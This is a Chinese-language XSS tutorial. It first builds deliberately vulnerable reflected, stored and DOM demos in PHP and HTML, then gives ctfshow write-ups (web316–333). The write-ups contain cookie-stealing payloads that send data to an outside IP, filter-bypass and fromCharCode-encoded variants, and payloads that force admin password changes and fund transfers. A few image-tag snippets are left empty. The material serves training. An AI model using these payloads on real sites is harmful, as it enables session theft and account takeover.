



## XSS 基础

XSS（Cross-Site Scripting，跨站脚本攻击）是指攻击者将 JavaScript 等脚本插入网页，使其在其他用户的浏览器中执行，从而达到获取信息、冒充用户操作等目的。

下面通过自建环境分别演示反射型 XSS、存储型 XSS 和 DOM 型 XSS。

### 1. 反射型 XSS

反射型 XSS 的特点是：用户提交的内容被服务器直接写入当前响应，但通常不会长期存储在服务器中。

演示代码：

```php
<?php
header("Content-Type: text/html; charset=UTF-8");
header("X-Robots-Tag: noindex, nofollow");

if (!isset($_GET["input"])) {
    highlight_file(__FILE__);
    exit;
}

$input = $_GET["input"];
?>

<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <title>反射型 XSS</title>
</head>
<body>

<h1>反射型 XSS 演示</h1>

<p>用户输入：</p>

<div>
    <?php
    // 故意不进行 HTML 编码，用来演示反射型 XSS
    echo $input;
    ?>
</div>

<p><a href="/attack/">返回首页</a></p>

</body>
</html>
```

正常访问：

```text
http://8.148.31.22/attack/xsstest.php?input=1
```

页面会显示“用户输入：1”。

如果访问：

```text
http://8.148.31.22/attack/xsstest.php?input=<script>alert("test")</script>
```

页面会执行传入的 JavaScript，并弹出窗口。

### 2. 存储型 XSS

存储型 XSS 的恶意内容会被保存在服务器的数据库等持久化存储中。其他用户访问相关页面时，服务器再次输出该内容，脚本随之执行。

演示代码：

```php
<?php
header("Content-Type: text/html; charset=UTF-8");
header("X-Robots-Tag: noindex, nofollow");

mysqli_report(MYSQLI_REPORT_ERROR | MYSQLI_REPORT_STRICT);

$config = require "/etc/xss-lab-db.php";
$notice = "";

try {
    $conn = new mysqli(
        $config["host"],
        $config["username"],
        $config["password"],
        $config["database"],
        $config["port"]
    );

    $conn->set_charset("utf8mb4");

    if ($_SERVER["REQUEST_METHOD"] === "POST") {
        $username = $_POST["username"] ?? "";
        $message = $_POST["message"] ?? "";

        if (trim($username) === "" || trim($message) === "") {
            $notice = "请填写完整信息";
        } elseif (
            mb_strlen($username, "UTF-8") > 100 ||
            mb_strlen($message, "UTF-8") > 2000
        ) {
            $notice = "输入内容过长";
        } else {
            // 使用预处理语句防止 SQL 注入
            $stmt = $conn->prepare(
                "INSERT INTO message (username, message) VALUES (?, ?)"
            );

            $stmt->bind_param("ss", $username, $message);
            $stmt->execute();

            header("Location: /attack/stored.php");
            exit;
        }
    }

    $result = $conn->query(
        "SELECT id, username, message
         FROM message
         ORDER BY id DESC"
    );
} catch (mysqli_sql_exception $e) {
    error_log($e->getMessage());
    http_response_code(500);
    exit("数据库连接或查询失败");
}
?>

<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <title>存储型 XSS</title>

    <style>
        body {
            max-width: 800px;
            margin: 40px auto;
            font-family: sans-serif;
        }

        input,
        textarea {
            box-sizing: border-box;
            width: 100%;
            margin: 8px 0;
            padding: 10px;
        }

        textarea {
            min-height: 100px;
        }

        .message {
            margin: 16px 0;
            padding: 15px;
            border: 1px solid #ccc;
        }
    </style>
</head>
<body>

<h1>留言板的存储型 XSS</h1>

<?php if ($notice !== ""): ?>
    <p>
        <?= htmlspecialchars(
            $notice,
            ENT_QUOTES | ENT_SUBSTITUTE,
            "UTF-8"
        ) ?>
    </p>
<?php endif; ?>

<form method="post">
    <input
        type="text"
        name="username"
        maxlength="100"
        placeholder="姓名"
        required
    >

    <textarea
        name="message"
        maxlength="2000"
        placeholder="请输入留言"
        required
    ></textarea>

    <button type="submit">提交留言</button>
</form>

<hr>

<?php if ($result->num_rows === 0): ?>

    <p>暂无留言</p>

<?php else: ?>

    <?php while ($row = $result->fetch_assoc()): ?>
        <div class="message">
            <p>
                <strong>用户名：</strong>

                <?= htmlspecialchars(
                    $row["username"],
                    ENT_QUOTES | ENT_SUBSTITUTE,
                    "UTF-8"
                ) ?>
            </p>

            <p><strong>留言内容：</strong></p>

            <div>
                <?php
                // 故意不编码，用来演示存储型 XSS
                echo $row["message"];
                ?>
            </div>
        </div>
    <?php endwhile; ?>

<?php endif; ?>

<p><a href="/attack/">返回首页</a></p>

</body>
</html>
```

在留言内容中填写：

```html
<script>alert("test")</script>
```

提交后，每次访问该页面都会重新读取并输出这段内容，因此浏览器会执行其中的 JavaScript 并弹出窗口。

### 3. DOM 型 XSS

DOM 型 XSS 发生在浏览器端 JavaScript 操作 DOM 的过程中，而不是由服务器直接把恶意内容写进响应页面。

DOM 是浏览器解析 HTML 后形成的对象结构。JavaScript 可以通过 DOM 修改网页内容。如果写入 `innerHTML` 的内容来自未经处理的用户输入，就可能产生 XSS：

```javascript
const input = document.getElementById("src").value;
document.getElementById("demo").innerHTML =
    "";
```

攻击者可以输入：

```text
x' onerror='alert("DOM-XSS")
```

浏览器最终解析得到：

```html

```

图片 `x` 加载失败后触发 `onerror`，其中的 JavaScript 随之执行。

完整演示代码：

```html
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <title>DOM 型 XSS</title>
</head>
<body>

<h1>DOM 型 XSS 演示</h1>

<input
    type="text"
    id="src"
    size="50"
    placeholder="输入图片地址"
>

<input
    type="button"
    value="插入"
    onclick="xss()"
>

<br><br>

<div id="demo"></div>

<script>
    function xss() {
        const str = document.getElementById("src").value;

        // 故意使用 innerHTML 拼接用户输入
        document.getElementById("demo").innerHTML =
            "";
    }
</script>

<p><a href="/attack/">返回首页</a></p>

</body>
</html>
```

输入以下内容即可触发弹窗：

```text
1' onerror='alert("test")
```

## ctfshow 题解

### 反射型 XSS

#### web316

编写一个接收 GET 参数的 PHP 脚本。当题目后台机器人访问包含 XSS Payload 的页面时，可以将机器人的相关信息发送到自己的服务器。

接收脚本：

```php
<?php
$content = $_GET["1"] ?? null;

if ($content === null || !is_string($content)) {
    exit("no input");
}

$file = __DIR__ . "/1.txt";
$result = file_put_contents($file, $content, LOCK_EX);

if ($result === false) {
    http_response_code(500);
    exit("write failed");
}

echo "write success: {$result} bytes";
?>
```

先测试接收脚本：

```text
http://8.148.31.22/attack/1.php?1=test
```

页面显示写入成功后，再提交用于获取 Cookie 的 Payload：

```html
<script>document.location.href="http://8.148.31.22/attack/1.php?1="+document.cookie</script>
```

也可以使用：

```html
<script>window.open("http://8.148.31.22/attack/1.php?1="+document.cookie)</script>
```

#### web317–319

题目过滤了 `<script>` 标签，可以改用其他标签的事件属性。

使用 `<body>` 的 `onload`：

```html
<body onload="window.location.href='http://8.148.31.22/attack/1.php?1='+document.cookie"></body>
```

还可以使用以下方式。`btoa()` 用于对字符串进行 Base64 编码。

使用 `` 的 `onerror`：

```html

```

其中，`src=x` 会导致图片加载失败，随后触发 `onerror` 中的 JavaScript。

使用 `<svg>` 的 `onload`：

```html
<svg onload="location.href='http://8.148.31.22/attack/1.php?1='+btoa(document.cookie)"/>
```

使用 `<iframe>` 的 `onload`：

```html
<iframe onload="document.location='http://8.148.31.22/attack/1.php?1='+document.cookie"></iframe>
```

#### web320–321

题目过滤了空格，可以利用浏览器的标签解析差异，将 `/**/` 作为标签名与属性之间的分隔符：

```html
<svg/**/onload="location.href='http://8.148.31.22/attack/1.php?1='+btoa(document.cookie)"/>
```

还可以使用 `document.write()` 动态写入内容，并通过 `String.fromCharCode()` 将 ASCII 码还原为字符串，构造出 `<script>` 标签：

```html
<body/**/onload=document.write(String.fromCharCode(60,115,99,114,105,112,116,62,100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,46,104,114,101,102,61,39,104,116,116,112,58,47,47,56,46,49,52,56,46,51,49,46,50,50,47,97,116,116,97,99,107,47,49,46,112,104,112,63,49,61,39,43,98,116,111,97,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41,60,47,115,99,114,105,112,116,62));>
```

下面的 Python 脚本可以把字符串转换为逗号分隔的 ASCII 码：

```python
input_str = input("请输入字符串：")
ascii_list = []

for char in input_str:
    ascii_code = ord(char)
    ascii_list.append(str(ascii_code))

result = ",".join(ascii_list)
print("转换后的 ASCII 码：", result)

# 输入示例：
# <script>document.location.href='http://8.148.31.22/attack/1.php?1='+btoa(document.cookie)</script>
```

#### web322–326

题目增加了对空格、逗号和 `xss` 等内容的过滤。调整接收脚本的位置后，以下 Payload 仍然可以使用：

```html
<svg/**/onload="location.href='http://8.148.31.22/attack/1.php?1='+btoa(document.cookie)"/>
```

还可以使用需要获得焦点后触发的 `onfocus`：

```html
<input/**/onfocus="location.href='http://8.148.31.22/attack/1.php?1='+document.cookie">
```

参考资料：[FreeBuf 相关文章](https://www.freebuf.com/articles/web/340080.html)

### 存储型 XSS

#### web327

收件人必须是 `admin`，其余位置没有明显过滤，可以提交：

```html
<svg/**/onload="location.href='http://8.148.31.22/attack/1.php?1='+btoa(document.cookie)"/>
```

#### web328

进入题目后可以看到注册、登录、用户管理和登出功能，但用户管理页面只有管理员能够访问。

可以在注册时把恶意代码写入用户名或密码字段，使其存储在服务器中。管理员进入用户管理页面后，页面会输出并执行这段代码，从而将管理员的 Cookie 发送到接收服务器。随后可以在 Burp Suite 中替换 Cookie 并重放请求，以管理员身份访问用户管理页面。

Payload：

```html
<script>new Image().src="http://8.148.31.22/attack/1.php?1="+btoa(document.cookie);</script>
```

抓包结果：



#### web329

这一题虽然能够获取 Cookie，但 Cookie 会很快失效，来不及手动进入用户管理页面。因此，可以不再带出 Cookie，而是让管理员浏览器直接在用户管理页面中搜索并带出 Flag。

Payload：

```html
<script>$('.layui-table-cell').each(function(index,value){if(value.innerHTML.indexOf('ctfshow')>-1){window.open('http://8.148.31.22/attack/1.php?1='+encodeURIComponent(value.innerHTML));}});</script>
```

下面逐部分分析这个 Payload。

通过开发者工具可以看到，用户管理页面中用于显示用户信息的元素使用了 `layui-table-cell` 类：



首先，使用 jQuery 选中所有 `class` 中包含 `layui-table-cell` 的元素：

```javascript
$(".layui-table-cell")
```

随后使用 `each()` 遍历每一个匹配元素：

```javascript
.each(function (index, value) {
    // ...
});
```

其中：

- `index` 表示当前元素的序号。
- `value` 表示当前单元格对应的 DOM 元素。

接着检查当前单元格的 HTML 内容中是否包含字符串 `ctfshow`：

```javascript
value.innerHTML.indexOf("ctfshow") > -1
```

`indexOf()` 找到目标字符串时会返回 `0` 或更大的索引，未找到时返回 `-1`。因此，条件 `> -1` 表示已经找到了类似下面的 Flag：

```text
ctfshow{xxxxxxxx}
```

找到后执行：

```javascript
window.open(
    "http://8.148.31.22/attack/1.php?1=" +
    encodeURIComponent(value.innerHTML)
);
```

这会打开一个新窗口，并将单元格内容编码后作为 GET 参数 `1` 发送到接收服务器。

假设单元格内容为：

```text
ctfshow{test_flag}
```

浏览器就会访问类似下面的地址：

```text
http://8.148.31.22/attack/1.php?1=ctfshow%7Btest_flag%7D
```

PHP 会自动解析 URL 编码，最终便可以在接收文件中读取 Flag。

#### web330

这一题新增了修改密码功能。抓包后可以发现，页面通过 GET 参数 `p` 把新密码提交给 `/api/change.php`：



因此，可以让管理员浏览器访问该接口，直接把管理员密码修改为 `123456`：

```html
<script>document.location.href="/api/change.php?p=123456"</script>
```

这里使用的是以 `/` 开头的相对路径，因此请求会自动发送到当前题目站点，而不需要写死域名。

管理员浏览器执行 Payload 后，可以使用新密码登录管理员账户，再查看 `manager.php` 的响应以获取 Flag。

#### web331

修改密码接口改为通过 POST 方式接收参数，可以使用 jQuery 的 `$.ajax()` 发送异步 POST 请求：

```html
<script>$.ajax({url:"/api/change.php",type:"post",data:{p:123456}});</script>
```

其中：

- `url`：请求的相对路径 `/api/change.php`。
- `type`：请求方法为 `POST`。
- `data`：提交参数 `p=123456`。

#### web332–333

题目新增了转账和购买 Flag 的功能。抓包可以发现，转账操作会向 `/api/amount.php` 发送 POST 请求，参数为：

- `u`：收款账户。
- `a`：转账金额。

例如，将 `9999` 转给账户 `test123`：

```html
<script>$.ajax({url:"/api/amount.php",type:"post",data:{u:"test123",a:9999}});</script>
```

管理员浏览器执行后，会以管理员身份向指定账户发起转账，之后即可利用账户余额购买 Flag。